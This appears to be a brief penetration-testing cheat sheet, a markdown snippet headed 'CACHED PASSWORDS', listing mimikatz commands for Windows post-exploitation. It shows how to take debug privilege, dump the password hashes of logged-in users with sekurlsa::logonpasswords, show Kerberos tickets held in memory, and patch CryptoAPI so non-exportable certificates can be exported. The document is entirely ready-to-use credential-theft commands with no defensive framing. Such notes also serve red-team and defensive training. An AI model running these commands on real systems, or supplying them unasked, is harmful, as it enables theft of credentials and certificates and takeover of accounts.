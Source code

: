 # CACHED PASSWORDS
#mimikatz
```
# CACHED PASSWORDS
privilege::debug

# dump hashes of logged in users
sekurlsa::logonpasswords

# show tickets in memory
sekurlsa::tickets

# fix non exportable certs on CA
crypto::capi
KeyIso
```
